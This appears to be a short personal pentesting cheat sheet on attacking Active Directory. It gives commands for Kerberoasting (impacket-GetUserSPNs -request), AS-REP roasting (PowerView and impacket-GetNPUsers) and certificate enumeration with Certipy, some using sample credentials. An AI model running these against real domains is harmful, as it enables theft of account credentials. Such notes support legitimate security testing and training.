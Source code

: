 # Active Directory & Domain Controller

```
impacket-GetUserSPNs domain-name/domain-user:password -dc-ip x.x.x.x -request
```

```
impacket-GetUserSPNs xyz.com/alice:bubbles -dc-ip 192.168.111.155 -request
```

![[Pasted image 20230906222705.png]]

*Service Principal Name (SPN)*

*Ticket Granting Service (TGS)*

*Ticket Granting Ticket (TGT)*

### List vuln users using PowerView

```
Get-DomainUser -PreauthNotRequired -verbose
```

```
impacket-GetNPUsers $domain-name/ -dc-ip $ip -usersfile usernames.txt
```

https://github.com/ly4k/Certipy

```
certipy find -u john@corp.local -p Passw0rd -dc-ip 172.16.126.128
```

